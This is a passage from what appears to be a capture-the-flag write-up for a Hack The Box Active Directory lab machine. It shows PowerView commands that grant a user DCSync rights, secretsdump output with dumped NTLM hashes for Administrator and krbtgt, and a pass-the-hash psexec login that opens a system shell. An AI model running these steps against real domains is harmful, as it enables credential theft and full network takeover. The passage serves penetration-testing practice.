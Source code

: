 `upload PowerView.ps1`

# Type the cmds:
```bash
Import-Module ./PowerView.ps1
$SecPassword = ConvertTo-SecureString 'boss123' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('megabank\boss', $SecPassword)
Add-DomainObjectAcl -Credentials $Cred -TargetIdentity htb.local -PrincipalIdentity boss -Rights DCSync
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity boss -Rights DCSync
```
# Run secretsdump to collect the hashes:
```bash
└─$ secretsdump.py htb/boss:boss123@10.10.10.161
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```
# Login using psexec
```bash
└─$ psexec.py administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file EUmoTUCZ.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service RwtR on 10.10.10.161.....
[*] Starting service RwtR.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
